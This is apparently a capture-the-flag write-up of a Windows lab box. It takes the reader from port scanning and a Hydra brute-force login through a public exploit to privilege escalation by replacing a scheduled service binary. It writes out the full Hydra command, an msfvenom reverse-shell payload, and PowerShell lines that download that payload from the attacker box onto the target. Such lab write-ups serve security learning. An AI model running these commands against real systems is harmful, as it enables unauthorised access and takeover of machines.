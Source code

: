 ## Recon
 
Begin recon with NMAP to see which ports are open on the box
 
 ![image](https://user-images.githubusercontent.com/88425510/215881658-a6e4f83f-dab3-4642-882e-db8aa872ad88.png)
 
NMAP shows that port 80 is open, suggesting there is a webpage being hosted by this machine.
 
Enumerate the webpage using GOBUSTER
 
 ![image](https://user-images.githubusercontent.com/88425510/215881709-65b0567b-80a4-491b-8bd6-7537a574485b.png)
![image](https://user-images.githubusercontent.com/88425510/215881730-2db10926-5a98-41bc-807a-153e028f5312.png)

 
This shows a number of places to check - note robots.txt
 
Visit robots.txt to see if there is any useful information available
 
 ![image](https://user-images.githubusercontent.com/88425510/215881777-52aa1b05-3f38-4d5a-a2e7-f280cae8b0a3.png)
 
Account looks promising
 
Navigate to account to see what we have

 ![image](https://user-images.githubusercontent.com/88425510/215881821-b08fe4fc-aa3e-49e8-adc5-f0c27d377852.png)
 
Note the default credentials seems to be admin:admin - this does not work so we will use admin as the username and attempt to bruteforce the password
 
## Foothold
 
Attempt a login and capture it with Burpsuite to gain information needed to form the Hydra attack
 
 ![image](https://user-images.githubusercontent.com/88425510/215881899-15f4d0b0-8f35-4b27-8548-ee7e26685e85.png)

Lines 1 and 14 are needed
Take these parts from Burp and the webpage to create Hydra command:
 
 ![image](https://user-images.githubusercontent.com/88425510/215881925-d88e0953-f22b-4f85-846c-9ef155e7f23b.png)
![image](https://user-images.githubusercontent.com/88425510/215881971-e7bd79f6-3201-4100-8438-7c7f1b09c86e.png)

 ![image](https://user-images.githubusercontent.com/88425510/215882009-6bae3aca-fdd6-4a1c-ab96-15472ce2a9f8.png)
 
Login failed
 
 
 
Combine the failed login message and the POST and VIEWSTATE fields to create the Hydra attack:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.176.34 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=VwAXG6ABUHHdsZyp9V5Zfa%2FQmIafRzp9ILoXJGVuXK8nUhCHtDfc4cAUkNeYybCBgFS7ttIKN9%2BL1TZYt9wc7ImbzKDO42jKqT4NzM2iK4qGYFdI5l7pg9jiSeKSYGI82ymoCvW67UVtpc1TE%2B1wg%2FuUJT23Wobx8ck39wYrMVKKYXRX&__EVENTVALIDATION=3FvnxLCU1vf%2FftSD5m08pwViCr63XR1GLrEKqv2qr42Hq8JQp2LWRA97rKzv1QZ1I8etW3igopbcuFlAq9be8kEAzsR5lfswhZLzLPLpwJrudjeGAiqRUNtpYvd2OfVPGKlinHl3CuVaVXXWfMEWJuKroB6hY9%2BlMqRgvnn3xhT%2Bzmv0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```
 
Note: ^USER^ and ^PASS^ must be used to use the username and password list
 
 ![image](https://user-images.githubusercontent.com/88425510/215882113-324e4abe-518a-449f-8c45-e0f952c262be.png)
 
Attack successful
 
## ID vulns
 
Login with the stolen credentials and then learn about the system
 
![image](https://user-images.githubusercontent.com/88425510/215882190-e03adfd8-a2b5-4960-a267-8d7aa68121fc.png)

See what verstion, google and search exploit-DB
 
https://www.exploit-db.com/exploits/46353
 
 ![image](https://user-images.githubusercontent.com/88425510/215882217-23cc0115-51f0-4bc4-a49d-14b67cc76c33.png)
  
Download and configure the exploit, remove bloat at the start and put attackbox info in socket
 
 ![image](https://user-images.githubusercontent.com/88425510/215882296-f7baf7c8-f18f-48f4-8131-ecd13176372f.png)
 
Attack box netcat listener on same port used in exploit
 
 ![image](https://user-images.githubusercontent.com/88425510/215882328-bdf896a3-ef24-4ec8-8efb-6553ec9f2ebe.png)
 
Exploit-DB how to use exploit
 
 
 
Upload the exploit
 
 ![image](https://user-images.githubusercontent.com/88425510/215882417-52ceb1cc-2a97-402d-b84d-61347262061b.png)
 
 ![image](https://user-images.githubusercontent.com/88425510/215882448-032138fc-2a4c-4630-8ca6-cabcb4ccb34b.png)

Shell popped
 
## Shell stabilisation
 
 ![image](https://user-images.githubusercontent.com/88425510/215882481-9478302a-342f-4027-9dc8-fde50b57699b.png)
 
Some on box enumeration
 
Going to stabilise the shell with a meterpreter shell as it crashed a couple of times:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.87.68 LPORT=9001 -f exe > shell.exe
```
 
 ![image](https://user-images.githubusercontent.com/88425510/215882523-b58d6d30-3d0d-46b9-b2b0-34b40caa3b29.png)

```
python3 -m http.server
```
 
 ![image](https://user-images.githubusercontent.com/88425510/215882566-9695fa26-79fa-4485-9a78-8193fb73cee9.png)

Host a simple http server
 
On the target machine navigate to world writable location:
 
 ![image](https://user-images.githubusercontent.com/88425510/215882597-dd339976-c182-40c6-b7d6-0bcfa276baee.png)

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.87.68:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
```

 ![image](https://user-images.githubusercontent.com/88425510/215882617-7a1dde73-7049-46a0-bb08-2016abe78e51.png)

Use powershell to pull the meterpreter shell over
 
## Get meterpreter shell
 
Open metasploit on attack box and set up a multi/handler
Note - 
set payload windows/meterpreter/reverse_tcp
Set lport to port used in msfvenom payload
Set lhosts to attack box
 
 ![image](https://user-images.githubusercontent.com/88425510/215882673-aa04534b-b6f3-4d1f-8f59-d36540e7d871.png)

Running shell.exe on target machine and getting session on metasploit
 
 
## On host enumeration
 
Upload winPEAS
 
 ![image](https://user-images.githubusercontent.com/88425510/215882711-ef262bed-e2ba-4e3a-a35c-88f3020b002d.png)

Attack box hosing simple python server

![image](https://user-images.githubusercontent.com/88425510/215882739-5ebee602-d7d0-475a-8677-1905a7606000.png)

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.189.26:8000/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```
 
Using powershell to get winPEAS
 
In Shell:
 
.\winPEAS.bat
 
In order to actually read the winPEAS output I had to pipe it to a .txt file and download it. I think this is something to do with the buffer/ terminal memory on the attack box. Something to look in to again.
The output shows that WindowsScheduler is running, this can often be abused
 
In order to read the output:
```
.\winPEAS.bat > winpeas.txt
Download winpeas.txt
Less winpeas.txt
```
 
 
Having the below service running means something is scheduled:
 
![image](https://user-images.githubusercontent.com/88425510/215882826-3e8b1128-cd5a-4023-acd2-193c3585b611.png)

Navigate to program filex x86 \systemscheduler \events
you can see what is being run
 
![image](https://user-images.githubusercontent.com/88425510/215882884-a5083080-3c5c-439b-a1d6-51c4e86e45e0.png)

![image](https://user-images.githubusercontent.com/88425510/215882932-c52f25ff-c24e-4e7b-882a-538f68bc4d71.png)

![image](https://user-images.githubusercontent.com/88425510/215882954-34f78cef-6519-40a0-8c53-22523b14c788.png)
 
We can replace message.exe with our shell.exe and as it is being run as administrator this will elevate our privileges
For some reason on this box you cannot copy it and so will have to download it as before
 
Get shell.exe into systemscheduler:

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.189.26:8000/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\shell.exe'"
```

Exploit service:
 
![image](https://user-images.githubusercontent.com/88425510/215883005-a2d10dab-6ea2-432c-bcef-086b9235c831.png)
![image](https://user-images.githubusercontent.com/88425510/215883032-6c0d9df9-7fe6-4c8b-934d-8dae7ff38517.png)
![image](https://user-images.githubusercontent.com/88425510/215883049-6d25a5c3-54a4-4ebd-a383-d8e923ac668b.png)

 
Replace message.exe with shell.exe
 
Note, this creates a session every 30 secons when the service runs so stop handler after you have one
 
## Getting flags:
 
Session 2 gives admin session

![image](https://user-images.githubusercontent.com/88425510/215883109-c73902f7-0ac3-4573-a72a-0364e012f6fc.png)
 
Look around for flags, both were on respective users desktops

![image](https://user-images.githubusercontent.com/88425510/215883160-72ec04fd-d7fe-400f-9a1d-da4e677e0443.png)

![image](https://user-images.githubusercontent.com/88425510/215883202-02915721-c309-4912-9770-51ec57eef056.png)

![image](https://user-images.githubusercontent.com/88425510/215883220-ed5c6814-8bae-4d6e-a7d9-10e19094f723.png)
 
Answer to one of the questions
 
## Final thoughts
 
This was an enjoyable box. I followed along the video on THM for the priv esc stuff. 
It took a long time for me to craft the Hydra command correctly, I spent a good 30 mins waiting and then got a load of false positives, then recrafted the command and got it right. 
The winPEAS scrolling problem is something I need to look back into, I've had it before on other machines and did find a fix previously but cannot remember what it was, although saving outputs is a useful thing to do. 
 

